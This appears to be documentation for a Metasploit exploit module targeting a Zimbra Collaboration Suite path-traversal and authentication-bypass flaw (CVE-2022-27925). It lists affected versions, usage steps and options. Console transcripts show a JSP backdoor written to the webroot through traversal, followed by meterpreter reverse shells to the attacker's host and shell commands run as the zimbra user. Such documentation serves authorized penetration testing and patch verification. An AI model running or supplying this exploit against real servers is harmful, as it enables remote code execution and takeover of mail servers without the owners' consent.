 ## Vulnerable Application

This module exploits a path-traversal vulnerability as well as an authentication-bypass vulnerability
in the following versions of Zimbra Collaboration Suite:

* Zimbra Collaboration Suite Network Edition 9.0.0 Patch 23 (and earlier)
* Zimbra Collaboration Suite Network Edition 8.8.15 Patch 30 (and earlier)

Note that the open source edition is not affected.

Successful exploitation results in RCE as the `zimbra` user.

Installing the vulnerable versions of Zimbra is a pain, unfortunately. I used a trial version of ZCS 8.8.12,
which you can currently get [here](https://www.zimbra.com/downloads/zimbra-collaboration/). On the download page,
after you register with a valid email address, there's an "older versions" link where you can get vulnerable versions.

This module should be simple to use out of the box. Once the server is up, it's vulnerable.

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.166
RHOSTS => 10.0.0.166
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/wuuvqmtko.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/wuuvqmtko.jsp
[*] Sending stage (3020772 bytes) to 10.0.0.166
[+] Successfully triggered the payload
[+] Deleted ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/wuuvqmtko.jsp
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.166:35180) at 2022-08-19 11:06:38 -0700
```

There's no easy way that I see to check for the patch (and the only vulnerable version I have is
quite a bit older), so attempts to exploit patched versions will likely result in a warning message
that the target may not vulnerable:

```
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/gauca.jsp
[-] Exploit aborted due to failure: unknown: Payload was not uploaded, the server probably isn't vulnerable
[!] This exploit may require manual cleanup of '../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp' on the target
[*] Exploit completed, but no session was created.
```

## Verification Steps
1. `use exploit/linux/http/zimbra_mboximport_cve_2022_27925`
1. `set RHOSTS <TARGET HOSTS>`
1. `set LHOST <Address of Attacking Machine>`
1. `exploit`
1. You should get a shell as the `zimbra` user.

## Options

### `TARGET_PATH`

The path (traversal included) where the payload will extract to. The default is the webroot, which is usually pretty safe.

### `TARGET_FILENAME`

The actual filename. It really should end with `.jsp`, otherwise it won't execute.

By default, it's a random string with `.jsp` on the end. That should work fine, especially 
because we can't overwrite files and don't want to use the same payload name more than once.

### `TARGET_USERNAME`

The username included in the `mboximport` request - any valid username works, `admin` is usually fine.

## Scenarios

### Zimbra Collaboration Suite Network Edition 8.8.12 Patch 6 on Ubuntu 18.04

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.166
RHOSTS => 10.0.0.166
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > show options

Module options (exploit/linux/http/zimbra_mboximport_cve_2022_27925):

   Name             Current Setting                                                                   Required  Description
   ----             ---------------                                                                   --------  -----------
   Proxies                                                                                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS           10.0.0.166                                                                        yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT            7071                                                                              yes       The target port (TCP)
   SSL              true                                                                              no        Negotiate SSL/TLS for outgoing connections
   TARGET_FILENAME                                                                                    no        The filename to write in the target directory; should have a .jsp extension (default: <random>.jsp).
   TARGET_PATH      ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/  yes       The location the payload should extract to (can, and should, contain path traversal characters - "../../").
   TARGET_USERNAME  admin                                                                             yes       The target user, must be valid on the Zimbra server
   VHOST                                                                                              no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.0.146       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Zimbra Collaboration Suite

msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444 
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/nkxj.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/nkxj.jsp
[*] Sending stage (3020772 bytes) to 10.0.0.166
[+] Successfully triggered the payload
[+] Deleted ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/nkxj.jsp
[*] Meterpreter session 1 opened (10.0.0.146:4444 -> 10.0.0.166:48640) at 2022-08-22 11:08:19 -0700

meterpreter > getuid
Server username: zimbra

meterpreter > shell
Process 121849 created.
Channel 1 created.
/opt/zimbra/bin/zmcontrol -v
Release 8.8.12.GA.3794.UBUNTU18.64 UBUNTU18_64 NETWORK edition, Patch 8.8.12_P6.
```

### Zimbra Collaboration Suite Network Edition 8.8.15 Patch 33 on Ubuntu 18.04

Note: This version is not vulnerable, because the issue is patched

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.167
RHOSTS => 10.0.0.167
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp
[*] Sending POST request with ZIP file
[*] Trying to trigger the backdoor @ public/gauca.jsp
[-] Exploit aborted due to failure: unknown: Payload was not uploaded, the server probably isn't vulnerable
[!] This exploit may require manual cleanup of '../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/gauca.jsp' on the target
[*] Exploit completed, but no session was created.
```

### Zimbra Collaboration Suite Open Source Edition Patch 8.8.12 Patch 6 on Ubuntu 18.04

Note: This version is not vulnerable, the open source edition doesn't have the correct path.

```
msf6 > use exploit/linux/http/zimbra_mboximport_cve_2022_27925
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set RHOSTS 10.0.0.164
RHOSTS => 10.0.0.164
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > set LHOST 10.0.0.146
LHOST => 10.0.0.146
msf6 exploit(linux/http/zimbra_mboximport_cve_2022_27925) > exploit

[*] Started reverse TCP handler on 10.0.0.146:4444 
[*] Encoding the payload as a .jsp file
[*] Target filename: ../../../../../../../../../../../../opt/zimbra/jetty_base/webapps/zimbra/public/cualvccyq.jsp
[*] Sending POST request with ZIP file
[-] Exploit aborted due to failure: not-found: The target path was not found, target is probably not vulnerable
[*] Exploit completed, but no session was created.
```

